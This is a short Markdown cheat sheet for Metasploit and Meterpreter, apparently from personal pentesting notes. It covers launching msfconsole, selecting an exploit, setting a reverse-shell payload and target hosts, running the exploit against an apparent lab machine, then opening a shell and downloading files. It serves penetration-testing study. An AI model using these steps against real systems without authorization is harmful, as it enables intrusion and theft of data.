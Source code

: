 ```yaml
---
id: Metasploit
aliases: ["msfconsole"]
tags:
  - Pentest/Tools/Metasploit
---
```


# Metasploit

## Resources

- [Metasploit](https://www.metasploit.com/)
- [GitHub - Metasploit](https://github.com/rapid7/metasploit-framework)

<!-- Usage {{{-->
## Usage

### Launch Metasploit

```sh
msfconsole
```

### Search Exploit

```sh
search <exploit>
```

### Select Exploit

```sh
use <number_of_exploit>
```

### Show Options

Any option with `Required` set to `yes` needs to be set

```sh
show options
```

Show advanced options

```sh
show advanced
```

### Set Options

Set **Local Host** (IP, or the name of a network interface)

```sh
set LHOST <local_host>
```

Set **Remote Host** (IP, multiple IPs, or a file containing a list of IPs)

```sh
set RHOST <remote_host>
```

Set **payload** (optional)

```sh
set payload generic/shell_reverse_tcp
```

> [!example]-
>
> **Set Options**
>
>```sh
>msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
>RHOSTS => 10.10.10.40
>msf6 exploit(windows/smb/ms17_010_psexec) > set LHOST tun0
>LHOST => tun0
>```

### Check Exploit

Check if the target is vulnerable to the exploit

```sh
check
```

**NOTE**: Not every exploit supports the `check` function

### Run Exploit

Use the `run` or `exploit` commands to launch the exploit

```sh
run
```

```sh
exploit
```
<!-- }}} -->

<!-- Meterpreter {{{-->
# Meterpreter

## Usage

Synopsis

```sh
meterpreter > help
```

Help

```sh
help
```

Spawn a shell

```sh
shell
```

## Options

- cd
- ls
- pwd
- download <file>
<!-- }}} -->
